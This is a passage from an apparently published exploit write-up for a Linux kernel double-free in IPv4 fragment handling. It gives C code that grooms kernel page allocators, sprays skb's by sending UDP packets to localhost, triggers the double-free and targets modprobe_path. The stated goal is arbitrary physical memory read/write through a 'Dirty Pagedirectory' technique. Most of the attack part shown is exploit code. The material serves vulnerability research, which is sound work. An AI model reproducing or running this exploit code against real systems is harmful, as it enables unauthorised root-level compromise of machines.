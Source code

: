 ```c
	pmd_data_area = _pmd_area + 0x200000;

	PRINTF_VERBOSE("[*] allocated VMAs for process:\n  - pte_area: ?\n  - _pmd_area: %p\n  - modprobe_path: '%s' @ %p\n", _pmd_area, modprobe_path, modprobe_path);

	populate_sockets();

	set_ipfrag_time(1);

	// cause socket/networking-related objects to be allocated
	df_ip_header.ip_id = 0x1336;
	df_ip_header.ip_len = sizeof(struct ip)*2 + 32768 + 8 + 4000;
	df_ip_header.ip_off = ntohs((8 >> 3) | 0x2000);
	alloc_intermed_buf_hdr(32768 + 8, &df_ip_header);

	set_ipfrag_time(9999);

	printf("[*] waiting for the calm before the storm...\n");
	sleep(CONFIG_SEC_BEFORE_STORM);

    // ... (rest of the exploit)
}

```

Copy

Codeblock 5.1.1.3.1: Partial code for the exploit written in C, which pre-allocates objects to reduce noise on the kernel page allocators.

#### 5.1.2. Performing double-free

Performing the double-free is the most tricky part of the exploit as we need to play with IPv4 networking code and the page allocators. In this section we will perform it so we can obtain arbitrary, unlimited r/w to any physical memory page with Dirty Pagedirectory in the next section, which is ironically enough a lot easier.

##### 5.1.2.1. Reserving clean skb's for masking

In order to allocate skb's before the double-free (which we free in between the double-free to avoid detection and for stability), the exploit sends UDP packets to its own UDP listener socket. Until the UDP listener recv()'s the packets, they will remain in memory as seperate skb's.

```c
void send_ipv4_udp(const char* buf, size_t buflen)
{
    struct sockaddr_in dst_addr = {
		.sin_family = AF_INET,
        .sin_port = htons(45173),
		.sin_addr.s_addr = inet_addr("127.0.0.1")
	};

	sendto_noconn(&dst_addr, buf, buflen, sendto_ipv4_udp_client_sockfd);
}
```
